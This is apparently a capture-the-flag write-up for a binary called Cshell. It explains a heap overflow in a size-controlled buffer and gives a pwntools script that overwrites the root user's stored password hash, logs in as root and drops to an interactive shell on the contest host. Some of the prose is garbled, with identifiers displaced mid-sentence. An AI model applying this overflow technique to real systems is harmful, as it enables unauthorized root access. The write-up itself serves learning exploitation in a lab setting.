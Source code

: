 ```
 +-------------------------------+
 
 ```
 
user = malloc(sizeof(struct users)*4)

root = user + 1

There follows a couple of str copies. They copy strings into the and buffers.user -> nameroot -> name

The setup() function is called that allows us to do the following:

Enter the username and password.
Specify our own size to and input into this buffer is limited to 201 bytes. Therefore this can be a possible heap overflow when we allocate a chunk of size < 200 bytes 😄malloc()
The logout function looks intresting since it does the following.

It gets the name of the user
There is a loop that checks for the username and checks if the user exists if not, the program exists; if True the programs asks for the password and updates uid
Using the user and password will never work since when we enter a password it is hashed first then checks against the password that is stored in . Therefore our hashed will be strcompared against the unhashed and this will never be true.rootguessme=)ptr -> ptr -> passwordguessme=)guessme=)


#### Exploit:

```
from pwn import * 

BIN = "./Cshell"

top_heap = 0x5186b0 
username = b"malwar3"
pswd = b"s4db0iz"
crypt_pass = b"13uA68F2TJ9vI"

def exploit():
	io.recvuntil("> ")
	io.sendline(username)
	io.recvuntil("> ")
	io.sendline(pswd)
	io.recvuntil("> ")
	io.sendline(b"120")
	payload = b"a"*187 + crypt_pass
	io.recvuntil("> ")
	io.sendline(payload)
	io.recvuntil("Choice > ")
	io.sendline(b"1")
	io.recvuntil("Username:")
	io.sendline("root")
	io.recvuntil("Password:")
	io.sendline(pswd)
	io.recvuntil("Choice >")
	io.sendline(b"3")
	io.interactive()


io = remote("pwn.be.ax", 5001)
#io = process(BIN)
exploit()
```

